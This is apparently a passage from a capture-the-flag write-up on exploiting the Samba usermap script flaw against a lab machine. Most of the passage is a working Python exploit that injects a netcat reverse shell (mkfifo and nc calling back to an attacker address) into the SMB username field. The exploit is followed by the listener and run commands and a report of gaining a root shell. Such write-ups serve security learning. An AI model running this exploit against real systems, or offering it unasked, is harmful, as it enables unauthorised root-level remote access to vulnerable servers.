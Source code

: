 Ok, so after wasting a ton of time on trial and error, realized that smbclient strips special characters like "/" from the username. Looking at the Meterpreter script, it uses an SMB library to connect. Googling for other scripts that exploit Samba usermap script, found many using python. Picked one and modified it slightly:

```python
#!/usr/bin/python3
# Modified from: https://raw.githubusercontent.com/NPTG24/Exploit-smb-3.0.20/main/smb-usermap.py
# Setup:
# ❯ python3 -m venv venv
# ❯ source venv/bin/activate
# ❯ pip install smb
# Usage:
# smb-usermap.py <VICTIM_IP>
# Reference - https://www.exploit-db.com/exploits/16320/

# change as required
LHOST = "10.10.14.8"
LPORT = 9000

from smb.SMBConnection import SMBConnection
import random, string
from smb import smb_structs

smb_structs.SUPPORT_SMB2 = False
import sys

if len(sys.argv) < 2:
    print("\nUsage: python3 " + sys.argv[0] + " <VICTIM_IP>\n")
    sys.exit()

# Shellcode:
# msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.8 LPORT=9000 -f raw
cmd = f"mkfifo /tmp/b; nc {LHOST} {LPORT} 0</tmp/b | /bin/sh >/tmp/b 2>&1; rm /tmp/b"

username = f"/=` nohup {cmd}`"
password = ""
my_name = "derp"
remote_name = "derp"
con = SMBConnection(username, password, my_name, remote_name, use_ntlm_v2=False)
assert con.connect(sys.argv[1], 445)
```

Then tried running it:

```sh
# start netcat listener
❯ nc -lvnp 9000

# set up python virtual environment
❯ python3 -m venv venv
❯ source venv/bin/activate
❯ pip install smb

# run exploit
❯ python3 smb-usermap.py 10.10.10.3
```

And we get a root shell!

